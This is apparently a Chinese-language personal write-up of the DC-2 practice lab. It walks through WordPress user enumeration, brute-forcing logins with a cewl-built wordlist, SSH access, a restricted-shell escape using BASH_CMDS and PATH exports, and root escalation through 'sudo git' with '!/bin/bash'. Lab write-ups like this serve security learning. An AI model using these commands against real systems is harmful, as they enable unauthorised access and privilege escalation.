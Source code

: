 ```yaml
---
title: DC2
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-11T22:10:39+08:00
categories: 
- 渗透测试
- 靶机练习
---
```


```
arp-scan -l 
获取目标IP ==> 192.168.121.145
```

发现无法访问目标，输入目标IP后变成了dc-2的域名，网上搜发发现是不解析的问题，可通过修改hosts文件解决

```
vim /etc/host 
添加 192.168.121.145 dc-2 即可正常访问
在网页中发现flag1
```

![flag1](E:\笔记软件\笔记\渗透测试\靶机练习\DC2图库\flag1.png)

提示我们需要登录看到下一个flag，先进行信息收集吧，很显然这是一个wordpress站点，找到登录框之后我们可以进行密码爆破

gobuster进行目录扫描

```
gobuster dir -u http://dc-2 -w /usr/share/wordlists/dirb/big.txt
```

得到以下目录

```
/wp-admin             (Status: 301) [Size: 299] [--> http://dc-2/wp-admin/]
/wp-content           (Status: 301) [Size: 301] [--> http://dc-2/wp-content/]
/wp-includes          (Status: 301) [Size: 302] [--> http://dc-2/wp-includes/]
```

/wp-admin是登录位置，/wp-includes可以看到很多泄露的文件，稍微浏览一下，基本都是php文件，无法得到文件内容

抓个包进行账户密码的爆破，bp上爆破速度太慢

namp扫描目标端口信息

```
nmap -A 192.168.121.145 -p-
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-generator: WordPress 4.7.10
|_http-title: DC-2 &#8211; Just another WordPress site
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
MAC Address: 00:0C:29:E0:14:4D (VMware)
能够看到7744端口开放了ssh连接
```

使用wpscan查看目标wordpress信息

```
wpscan --url http://dc-2
```

由于我们没有用户名，通过wpscan枚举当前网站注册过的用户

可以得到用户名字典

![users](E:\笔记软件\笔记\渗透测试\靶机练习\DC2图库\users.png)

有了用户名字典，爆破就会快很多，然而当我使用wpscan通过默认的rockyou字典进行爆破时，我发现基数仍然具有四千多万，只好另辟蹊径

cewl时kali中一个自定义的字典生成器，可通过爬取网站来达到生成字典的目的

```
cewl http://dc-2 -w dc-2.txt
```

这样爆破目标就更小了，成功得到两个用户名和密码

![u-p](E:\笔记软件\笔记\渗透测试\靶机练习\DC2图库\u-p.png)

尝试进行登录，成功进入后台，但并不是admin，该站点时wordpress 4.7.10的版本，在用户位置能够看到更改密码处为一串hash值对应我们的密码

```
hM7iWeEl$Thz8YQozq#aGAnc ==> parturient
```

在jerry的账户下找到了flag2

![flag2](E:\笔记软件\笔记\渗透测试\靶机练习\DC2图库\flag2.png)

既然得到了版本信息，我尝试去msf寻找一些历史的rce漏洞进行反向shell，但是都没有成功，只好去看wp，发现是要连接ssh

ssh连接jerry的账号失败了，但是能够成功连接tom的账户

```
shh tom@192.168.121.145 -p 7744
```

![ls](E:\笔记软件\笔记\渗透测试\靶机练习\DC2图库\ls.png)

能够看到目录下有flag3.txt但是我们没有cat命令,发现这里的shell是-rbash，我想直接切换/bin/bash但是失败了，但是vi可以成功查看到flag3



![flag3](E:\笔记软件\笔记\渗透测试\靶机练习\DC2图库\flag3.png)

tom一直追逐着jerrry,看来是要获取jerry的账号,但是我们现在是rbash限制，没有su命令，但是可以中export

```
BASH_CMDS[a]=/bin/sh;a       #注：把 /bin/sh 给a变量并调用
export PATH=$PATH:/bin/      #注：将 /bin 作为PATH环境变量导出
export PATH=$PATH:/usr/bin   #注：将 /usr/bin 作为PATH环境变量导出
```

如此我们就能su到jerry用户下，并且在home中找到flag4.txt

![flag4.txt](E:\笔记软件\笔记\渗透测试\靶机练习\DC2图库\flag4.txt.png)

flag4中提示我们git go on,很显然通过jerry，我们无法直接进入root目录，

```
sudo -l 
```

寻找能以root用户执行的命令，发现git命令存在，估计是要使用git命令进行提权，上在线工具找下get提权

```
sudo git help config 
!/bin/bash
即可成功提权root
```

![root](E:\笔记软件\笔记\渗透测试\靶机练习\DC2图库\root.png)

最后进root目录找flag!

![users](E:\笔记软件\笔记\渗透测试\靶机练习\DC2图库\users.png)

成功拿下最后一个flag

### 总结：

和DC1完全是两个感觉，前者可以直接上msf进行漏洞利用，DC2不能，反而是利用一些针对wordpress的工具进行扫描，这一次没有用nmap扫描端口，是后面补上的，没有想到后面居然要用ssh进行连接，怪就怪在自己的信息收集不完善；同时学会了cewl爬取网站信息做字典的快捷操作，毕竟用常规的rockyou放到靶机上来说不太合适，速度过于缓慢，而且不一定能出；也继续积累了提权操作，后面打算专门做提权相关的研究
